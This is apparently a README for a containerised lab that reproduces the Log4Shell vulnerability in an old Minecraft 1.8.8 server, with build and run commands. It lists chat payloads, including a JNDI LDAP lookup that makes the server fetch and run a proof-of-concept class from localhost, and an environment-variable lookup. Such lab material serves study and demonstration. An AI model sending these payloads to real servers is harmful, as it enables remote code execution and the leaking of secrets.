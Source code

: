 # Minecraft Log4shell CVE-2021-44228

The Docker image contains the old version of Minecraft 1.8.8 with vulnerable version of Log4j library. It also contains old version of Java 8u181. This is one of the versions allowing the remote code execution through JNDI lookups with LDAP names. You can find more details about the Log4j exploitation vectors and affected Java runtime versions in [this post by Moritz Bechler](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/).

There is also [marshalsec](https://github.com/mbechler/marshalsec) tool for redirecting the LDAP references to a Java class served by simple Python webserver.

The POC Java class just execute the `whoami` command and print a simple message.

![Minecraft Log4shell Demonstration](./minecraft-log4shell.gif)

## Build

```
podman build --rm -t minecraft-log4shell -f Dockerfile .
```

## Usage

For simple demo and playing with the vulnerable Minecraft server in the tmux session, just run

```
podman run --rm -it minecraft-log4shell
```

and then navigate to the Minecraft window with CTRL+B and Up. You can send the chat messages on the server with the command `say`, e.g.:
* `say hello`
* `say ${env:PATH}` (example of environment variable lookup)
* `say ${jndi:ldap://127.0.0.1:1389/Log4Shell}` (example of JNDI LDAP lookup, which downloads and executes POC.class by the vulnerable Minecraft server)

If you wish to connect your Minecraft client to the vulnerable Minecraft server and send the above messages by the player to the chat, you can expose the Minecraft server to the localhost:

```
podman run --rm -it -p 25565:25565  minecraft-log4shell
```
